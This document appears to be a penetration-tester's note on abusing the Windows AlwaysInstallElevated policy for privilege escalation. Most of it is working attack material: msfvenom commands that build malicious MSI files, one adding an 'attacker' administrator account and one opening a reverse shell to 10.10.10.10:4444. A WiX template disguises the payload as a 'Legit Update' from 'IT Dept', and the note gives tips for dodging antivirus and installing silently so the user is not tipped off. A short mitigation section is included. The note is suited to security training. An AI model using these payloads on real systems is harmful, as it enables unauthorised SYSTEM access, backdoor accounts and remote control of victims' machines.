

# AlwaysInstallElevated

## Introduction

`AlwaysInstallElevated` is a Windows policy setting that, when enabled, allows non-privileged users to install Microsoft Windows Installer Packages (`.msi` files) with the elevated privileges of the `NT AUTHORITY\SYSTEM` account. 

This policy was designed for environments where administrators want standard users to be able to install approved software without requiring helpdesk intervention or User Account Control (UAC) prompts. However, because `.msi` files can execute custom actions (including executing arbitrary code, running scripts, and modifying the registry) during the installation process, enabling this policy effectively grants every user on the system a direct path to Local System privileges.

This is widely considered a catastrophic misconfiguration and is a favorite among penetration testers due to the ease and reliability of the exploit.

## The Mechanics of Windows Installer

The Windows Installer service (`msiexec.exe`) manages the installation, maintenance, and removal of software on Windows systems.

Normally, when a standard user double-clicks an `.msi` file, the installation runs under their own user context. If the installation requires administrative actions (like writing to `C:\Program Files\` or modifying `HKLM` in the registry), the installer will halt and prompt for administrative credentials via UAC.

If `AlwaysInstallElevated` is enabled, the Windows Installer service skips the UAC prompt and forcefully executes the installation process under the `NT AUTHORITY\SYSTEM` context, regardless of who initiated the installation.



## Enumeration and Identification

For this vulnerability to be exploitable, the `AlwaysInstallElevated` value must be set to `1` in **both** the Local Machine (`HKLM`) and Current User (`HKCU`) registry hives. If it is only set in one of them, the exploit will fail.

You can verify the presence of this misconfiguration using the command line tool `reg query`.

### Querying the Registry

**Check Current User (HKCU):**
```cmd
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

**Check Local Machine (HKLM):**
```cmd
C:\> reg query HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

If both commands return `0x1`, the system is highly vulnerable. If the key does not exist, or is set to `0`, the system is not vulnerable via this vector.

## Exploitation Process

Exploiting this misconfiguration involves creating a malicious `.msi` file that contains a payload, and then running that installer.

### Step 1: Crafting the Malicious MSI

The fastest way to generate a malicious `.msi` is using `msfvenom`. The payload will be embedded as a custom action that executes during the installation sequence.

```bash
# On the Attacker Machine:
msfvenom -p windows/x64/exec CMD="net localgroup administrators attacker /add" -f msi -o setup.msi
```
Alternatively, for an interactive reverse shell:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f msi -o setup.msi
```

### Advanced Crafting (WiX Toolset)
MSFvenom `.msi` payloads are highly recognizable by Antivirus solutions. For a more stealthy approach, an attacker can use the Windows Installer XML (WiX) Toolset to compile a custom `.msi`.

Create a file named `payload.wxs`:
```xml
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
  <Product Id="*" UpgradeCode="12345678-1234-1234-1234-111122223333" Name="Legit Update" Version="1.0.0" Manufacturer="IT Dept" Language="1033">
    <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
    <Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>
    
    <Directory Id="TARGETDIR" Name="SourceDir">
      <Directory Id="ProgramFilesFolder">
        <Directory Id="INSTALLDIR" Name="LegitApp"/>
      </Directory>
    </Directory>
    
    <Feature Id="DefaultFeature" Level="1"/>
    
    <!-- Custom Action Executing CMD -->
    <CustomAction Id="ExecPayload" Directory="TARGETDIR" ExeCommand="cmd.exe /c net localgroup administrators attacker /add" Execute="deferred" Return="check" Impersonate="no"/>
    
    <InstallExecuteSequence>
      <Custom Action="ExecPayload" After="InstallInitialize"/>
    </InstallExecuteSequence>
  </Product>
</Wix>
```
Compile it using WiX:
```bash
candle.exe payload.wxs
light.exe payload.wixobj
```
This generates a clean, custom `.msi` that is less likely to be flagged statically.

### Step 2: Executing the MSI

Transfer the `setup.msi` to the target machine. To ensure the installation is silent (meaning no GUI pops up on the user's screen which might tip them off), use the `/quiet` and `/qn` flags.

```cmd
C:\> msiexec /quiet /qn /i C:\Temp\setup.msi
```

*Explanation of flags:*
- `/quiet`: Quiet mode, no user interaction required.
- `/qn`: No UI.
- `/i`: Install the package.

The installation will process, execute the embedded payload as SYSTEM, and then immediately terminate. If the payload was a command execution to add a user, you can verify it immediately:

```cmd
C:\> net localgroup administrators
Members
-------------------------------------------------------------------------------
Administrator
attacker
```

## Considerations and Cleanup

Because the msfvenom `.msi` payloads are designed to execute code rather than actually install software, the installation process usually errors out and fails after the payload runs. This is intended behavior. The payload executes, the installer crashes, and no trace of the software is left in the "Add/Remove Programs" list.

If a reverse shell payload is used, it will be running under the context of `msiexec.exe`. If the shell drops, the process terminates.

## Mitigation

The mitigation for this is simple and absolute: **Never enable this policy.**

Administrators should ensure via Group Policy that the policy is set to "Disabled" or "Not Configured" (which defaults to disabled).

Group Policy Path:
`Computer Configuration\Administrative Templates\Windows Components\Windows Installer\Always install with elevated privileges`
`User Configuration\Administrative Templates\Windows Components\Windows Installer\Always install with elevated privileges`

If software needs to be installed by standard users, administrators should use deployment solutions like SCCM (System Center Configuration Manager), Microsoft Intune, or LAPS (Local Administrator Password Solution) to handle privileged operations dynamically rather than weakening the global security posture of the OS.

## Chaining Opportunities
- **Initial Reconnaissance:** Requires querying the registry, an essential part of the manual checks discussed in [[01 - Windows PrivEsc Methodology Overview]].
- **Lateral Movement:** Once SYSTEM is achieved, the attacker can leverage tools like Mimikatz to dump credentials and move to other domain systems via [[Lateral Movement Overview]].

## Related Notes
- [[01 - Windows PrivEsc Methodology Overview]]
- [[02 - Enumerating Windows System Info]]
- [[Windows Registry Abuse]]
